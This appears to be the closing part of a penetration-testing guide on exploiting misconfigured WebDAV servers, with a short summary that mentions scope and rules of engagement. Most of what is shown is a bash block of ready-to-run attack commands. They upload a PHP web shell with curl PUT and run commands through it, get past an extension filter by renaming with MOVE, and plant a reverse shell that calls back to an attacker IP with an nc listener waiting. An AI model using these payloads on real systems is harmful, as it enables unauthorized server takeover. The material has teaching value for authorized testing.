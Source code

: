 ```bash
echo "<?php system(\$_GET['cmd']); ?>" > shell.php
curl -i -T shell.php $URL/shell.php
curl -s "$URL/shell.php?cmd=id"

# MOVE bypass (if .php blocked)
echo "<?php system(\$_GET['cmd']); ?>" > shell.txt
curl -i -T shell.txt $URL/shell.txt
curl -i -X MOVE "$URL/shell.txt" -H "Destination: $URL/shell.php"

# Reverse shell (optional)
LHOST=YOUR_ATTACK_IP; LPORT=4444
cp /usr/share/webshells/php/php-reverse-shell.php rshell.php
sed -i "s/127.0.0.1/$LHOST/; s/1234/$LPORT/" rshell.php
curl -i -T rshell.php $URL/rshell.php
nc -lvnp $LPORT; curl -I $URL/rshell.php

# Cleanup
curl -X DELETE $URL/test.txt; curl -X DELETE $URL/shell.php; curl -X DELETE $URL/rshell.php
```

---

## Summary
- WebDAV expands HTTP with authoring methods; misconfigurations often allow unintended write access.
- Identify DAV and allowed methods with nmap, curl, and davtest. Confirm on the actual DAV path.
- Exploitation commonly involves PUT to upload a test file or web shell; if extensions are filtered, use MOVE to rename after upload.
- For legacy IIS 6.0, check for the well-known WebDAV RCE.
- Keep evidence, clean up after tests, and align actions with scope and rules of engagement.